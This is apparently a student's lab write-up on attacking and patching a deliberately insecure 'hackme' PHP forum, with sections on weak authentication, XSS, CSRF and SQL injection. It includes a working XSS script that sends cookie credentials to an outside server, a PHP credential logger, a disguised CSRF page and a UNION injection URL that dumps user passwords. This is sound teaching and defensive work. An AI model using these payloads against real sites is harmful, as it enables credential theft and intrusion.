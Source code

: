 # Solution

### Milestone 1

#### Hackme Authentication System Description

The password management system for the hackme site is terrible. There are five
major issues with this site. First, it simply checks to see if there is a
cookie set called "hackme", and the value of that cookie is assumed to be the
username. No password check required, the site just assumes that you are
authenticated as that user. Second, if a user actually does register,
all passwords are stored as plaintext. This allows anyone with access to the
database to see all passwords of all users. Third, HTTPS is not used when
logging in or registering for the site. This allows anyone with a
network-snooping tool (like Wireshark) to grab this plaintext information out
of the air. Fourth, no measures are in place to prevent brute-forcing attacks.
Passwords that are easy enough to guess will inevitably be revealed to an
attacker, as an automated "guess and check" approach will get these passwords
in no time. Lastly, strong passwords are not enforced, meaning that an
ignorant user can set a one-character password if he or she chooses. These
issues described above break all of the security policies, as described below.

#### Security Policy 1

**Policy Description**

Only registered users should be able to view, submit, or delete a post.

**The Vulnerability**

Since the only authentication system in place is checking the value of the
"hackme" cookie, any non-registered user can simply assume the role of a
registered user, and do anything that the registered user can do.

**The Patch**

I used PHP's `$_SESSION` global variable to handle information about the
current session, such as who is logged in. By using this instead of storing
a cookie, PHP does not store the authenticated user on the client side, but
instead stores a session ID to prevent users from easily bypassing the login
mechanism. The session ID is then connected to the authenticated user on the
server side, so that session functionality is still intact.

#### Security Policy 2

**Policy Description**

User passwords should not be easily obtainable by someone who obtains a
copy of the database.

**The Vulnerability**

Registered users' passwords are also stored in the database as plaintext,
allowing anybody with access to the databases to view these passwords.

**The Patch**

The password is hashed before being stored in the database, so that people with
access to the database cannot view plaintext passwords. When a user logs in,
the hash of the entered password is then compared with the hash stored in the
database, allowing password functionality to remain intact.

#### Security Policy 3

**Policy Description**

Attackers should not be able to use snooping to obtain user credentials.

**The Vulnerability**

User credentials are sent "in the clear", allowing attackers to easily
snatch them out of the air.

**The Patch**

[This item is not complete yet.]

#### Security Policy 4

**Policy Description**

Brute-force attacks should be resisted.

**The Vulnerability**

There is no maximum amount of attempts of guessing a password, allowing an
attacker to brute-force and obtain weak passwords easily.

**The Patch**

Users now only have three password attempts before they are locked out of their
account. After that, the site administrator must unlock their account.

#### Security Policy 5

**Policy Description**

A strong password scheme should be enforced, requiring users to have
passwords longer than 8 characters in length, and requiring the password
not to be a dictionary word.

**The Vulnerability**

A strong password scheme is not enforced, allowing ignorant users to set
one-character passwords for the sake of convenience, opening them up to
attacks.

**The Patch**

Passwords are now required to be more than 8 characters in length, and contain
numbers, so that the passwords are not dictionary words.

### Milestone 2

#### The Vulnerability

To execute this attack, I posted a thread (as shown in Example 2.1) with
embedded JavaScript code, which gets executed when the page showing the thread
loads. This JavaScript code parses the `document.cookie` JavaScript string,
and finds the username and password embedded inside it. It then sends the
username and password to an external server that accepts a username and
password as GET arguments, and logs the received credentials to a text file.
The source code that stores the usernames and passwords is shown in Example
2.2.

```html
<script>
    var unStartIndex = document.cookie.indexOf("hackme")+7;
    var unEndIndex = document.cookie.indexOf("; hackme_pass");
    var pwStartIndex = document.cookie.indexOf("hackme_pass")+12;
    var pwEndIndex = document.cookie.length;
    var un = document.cookie.substring(unStartIndex, unEndIndex);
    var pw = document.cookie.substring(pwStartIndex, pwEndIndex);
    var params = "?un=" + un + "&pw=" + pw;
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "http://cse.taylor.edu/~jluscomb/xss.php"+params, false);
    xhttp.send();
</script>
```
**Example 2.1**: The malicious message that leverages the XSS attack.

```php
<?php
    $file = fopen("/home/CS/users/jluscomb/.linux/tmp/passwords.txt", "a");
    fwrite($file, $_GET['un']."/".$_GET['pw']."\n");
```
**Example 2.2**: The source code that stores the usernames and passwords.

#### The Patch

To patch this vulnerability, all I had to do was simply call PHP's provided
`filter_var()` function with the title and message of the thread, and it did
all the work of taking the `<script>` tags out, eliminating the XSS
vulnerability.

### Milestone 3

#### The Vulnerability

To execute this attack, I created a malicious web page that encourages the user
to click a button to show a typo. Upon clicking this button, the user
unknowingly submits a form that posts a thread on the hackme site. A user might
be lured to visit the malicious website through a phishing email advertising,
in this particular case, funny typos. The user is tricked into visiting the
site and clicking the button, falling victim to a CSRF attack. The malicious
web page that implements the CSRF attack is shown in Example 3.1.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Typos</title>
</head>
<body>
    <h1>All the typos on the <em>interenet</em>!</h1>
    <form action="http://10.121.20.109/hackme/post.php" method="post">
        <input type="hidden" name="title" value="You won!" />
        <input type="hidden" name="message" value="You have been selected for a free flying dragon ride." />
        <input type="submit" name="post_submit" value="View a typo" />
    </form>
</body>
</html>
```
**Example 3.1**: The source code that implements the CSRF attack.

#### The Patch

To patch this vulnerability, I added some PHP code that checks the HTTP referer
before allowing the thread submission. That way, the page ignores any requests
with HTTP referers outside of the site.

### Milestone 4

#### The Vulnerability

To execute this attack, I examined the source code for a query that uses string
concatenation, and whose results are returned in the HTML. One such
vulnerability was in the query to display all threads on the site, under the
`show.php` page. The query beings with `SELECT * FROM threads WHERE id = `, and
fills in the ID with an unsanitized GET parameter. I used this parameter to
complete the query with something that would return the username and passwords
of all users, as shown in Example 4.1.

```
http://10.121.20.109/hackme/show.php?pid=' UNION SELECT null AS id, username, CONCAT(username, "'s
password") AS title, CONCAT('The password for ', username, ' is: ', pass) AS message,
UNIX_TIMESTAMP(NOW()) AS date FROM users WHERE username LIKE '%
```
**Example 4.1**: The HTTP request that leverages the SQL injection attack. Line
breaks are added for convenience.

#### The Patch

To patch this vulnerability, I replaced all of the unsafe SQL queries with
prepared statements. According to W3Schools, with prepared statements,
parameter values are transmitted after the SQL statement template, using a
different protocol. This eliminates the problem of SQL statement templates
being derived from external output, which allowed for SQL injection in the
first place. With this problem eliminated, the SQL injection vulnerability
is no longer a problem.